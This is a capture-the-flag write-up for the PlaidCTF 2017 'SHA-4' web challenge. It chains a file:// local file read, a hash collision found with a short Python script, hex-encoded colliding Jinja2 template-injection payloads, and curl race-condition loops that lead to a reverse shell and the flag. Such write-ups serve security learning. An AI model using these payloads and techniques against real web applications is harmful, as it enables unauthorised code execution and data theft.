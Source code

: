 ```yaml
---
layout: post
title: "PlaidCTF 2017 - SHA-4"
date:   2017-04-23 00:00
categories: CTF
tags: [PlaidCTF2017]
categories: [Web,Crypto]
author: jbz
---
```


Web - 300 Points

I heard SHA-1 is broken, so I think it's probably time we move to SHA-4.

### Writeup

This challenge provided two forms, one which allowed to post comments and a textarea which parses an hex encoded, ans1 enveloped input.

Solution *tl;dr*

    local file read, hash collision, template injection, race condition


#### Directory Traversal

It is trivial to find a directory traversal by using the `file://` uri scheme instead of the intended `http://` or `https://` ones. Once we obtain file-reading access, we can find the directory of the python webapp `/var/www/sha4` by getting the system version from `file:///etc/issue` and the cmdline from `file:///proc/self/cmdline`.

We can guess the existence of these 2 files:
[server.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_server.py)
[sha4.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_sha4.py)

By checking the code we can see a possible template injection here:

    return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))

However we can't directly send an input containing characters such as `{}` or `/` because the function `is_unsafe()` checks if the comments contain non-whitelisted chars in `string.ascii_letters + string.digits + " ,.:()?!-_'+=[]\t\n<>"` before rendering it.

The code however seems a little strange for what it is intended to do. Let's check the whole `comments()` function:

{% highlight python %}
try:
  encoded = request.form['comment']
  encoded.replace("\n","\r")
  ber = encoded.decode("hex")
except TypeError:
  return render_template_string(bad)
f = "/var/tmp/comments/%s.txt"%hash(ber).encode("hex")
  
out_text = str(decode(ber))
open(f, "w").write(out_text)

if is_unsafe(out_text):
  return render_template_string(unsafe)

commentt = comment % open(f).read()
return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
{% endhighlight %}

So the code does the following:

 - hex decode the comment POST parameter
 - calculate the 'sha4' hash of the input
 - set the path `/var/tmp/comments/<hash>.file` as output
 - ASN.1 ber decode the input
 - write the decoded input to the file
 - check if it contains unsafe characters
 - if the previous check is false render the template

#### Template Injection

Since the webapp uses Flask, we can grab the code needed from [Exploring SSTI in flask](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which hashes the following requirements to achieve Command Execution:

 - upload a python reverse shell payload
 - inject `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` in the `render_template()` function

The first part is simple, we just need to upload the file using the upload form and calculate its path with the `sha4` function.  
The second part is the hard one.  
If we take a closer look at the `comments()` function we can notice there's something a little unusual: why would the programmer write the input to disk, check if it's safe and read it back? It is already in the `out_text` variable!

This seems coded to purposely create a race condition situation and make the challenge solvable.
So basically, to exploit the template injection we need to:

 - find a `sha4` hash collision between two ASN.1 encoded strings: one containing `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` and a safe one (which means without `{}` and `/`)
 - send both requests as fast as we can to have enough luck to exploit the race condition by overwriting the file `/var/tmp/comments/<collided hash>.txt` with the malicious payload while the script has passed the `is_unsafe()` check on the safe payload


#### Collision!

We find out that finding a collision is pretty easy.
For every char there is a colliding one for each position in the DES key (see sha4.py file).

We then calculate each colliding char for each forbidden char (`{}/`) with this small snippet

{% highlight python %}
def char_position_collision(char):
    for j in xrange(7):
        m1 = "a"*j + char
        for i in xrange(0,256):
            m2 = "a"*j+chr(i)
            if m1 != m2 and hash(m1) == hash(m2):
                print(m1,m2)
                break
char_position_collision("{")
char_position_collision("}")
char_position_collision("/")
{% endhighlight %}

We can use this [script](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_find_payload.py) that:

 1. takes our "bad" payload, and replace each "bad" character with its relative collision
 2. sets dummy padding at the start and at the end of the payload, since the hash function was appending a padding block that needs to collide as well
 3. encodes both "good" and "bad" payloads as ASN.1
 4. hashes them!

Here are the 2 payloads, ASN.1 encoded
```
0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161
0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161
```

#### Finally, the Flag

Once we have the colliding payloads we just have to send both requests as fast as we can, possibly using multiple threads; so from a server with a fast connection we can simply open multiple tmux sessions, running one of the following command in each
{% highlight shell %}
while true; do curl --data 'comment=0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}
{% highlight shell %}
while true; do curl --data 'comment=0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}

After a while the reverse shell should call back to our netcat listener:

{% highlight shell %}
$ whoami
www-data
$ uname -a
Linux chal-sha4 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www
$ ls
html
sha4
$ ls sha4
flag_bilaabluagbiluariglublaireugrpoop
server.py
server.pyc
sha4.py
sha4.pyc
sha4.wsgi
static
templates
$ cat sha4/flag_bilaabluagbiluariglublaireugrpoop
PCTF{th3 security aspect of cyber is very very tough}
{% endhighlight %}

